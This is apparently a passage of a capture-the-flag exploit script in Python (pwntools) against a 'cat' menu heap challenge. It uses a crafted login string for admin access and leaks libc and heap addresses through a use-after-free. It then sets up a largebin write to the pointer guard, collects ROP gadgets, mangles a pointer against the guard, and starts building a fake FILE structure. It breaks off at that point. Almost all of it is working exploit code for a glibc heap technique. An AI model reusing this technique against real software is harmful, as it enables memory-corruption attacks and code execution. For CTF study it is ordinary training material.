 ```python
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'2')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())


def show_cat(index):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'3')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())


def edit_cat(index, content):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'4')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())
    io.sendlineafter(b'plz input your content:\n', content)


io.sendlineafter(b'mew mew mew~~~~~~', b'LOGIN | r00t QWB QWXFadmin\x00')  # admin = 1

# add_cat(0, 0x430, b'colin')
add_cat(1, 0x428, b'colin')
add_cat(2, 0x430, b'colin')
add_cat(4, 0x418, b'colin')
add_cat(5, 0x440, b'colin')

delete_cat(1)
show_cat(1)
io.recv(9)
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
base = main_arena - main_arena_base
stderr = base + libc.symbols['stderr']
tcbhead_t = base - 0x28C0
_IO_cookie_jumps = base + 0x215B80
print(hex(base))

add_cat(3, 0x440, b'colin')

delete_cat(4)
show_cat(1)
io.recv(25)
heap_base = u64(io.recv(6) + b'\x00\x00') - 0x290

edit_cat(1, p64(main_arena + 1104) * 2 + p64(0) + p64(tcbhead_t + 0x10))
add_cat(0, 0x430, b'colin')
pointer_guard = heap_base + 0xB00
print(hex(pointer_guard))
print(hex(heap_base))

# some useful gadgets
pcop = 0x1675B0 + base
pop_rdi = 0x2A3E5 + base
pop_rsi = 0x2BE51 + base
pop_rdx_rbx = 0x90529 + base
pop_rax = 0x45EB0 + base
syscall = 0x91396 + base
print(hex(pcop))
encrypted_addr = ((pcop ^ pointer_guard) << 0x11) & ((1 << 64) - 1) + \
                 (((pcop ^ pointer_guard) & (((1 << 64) - 1) - ((1 << 47) - 1))) >> 47)

# create fake _IO_FILE struct for fake stderr
payload = FileStructure()
```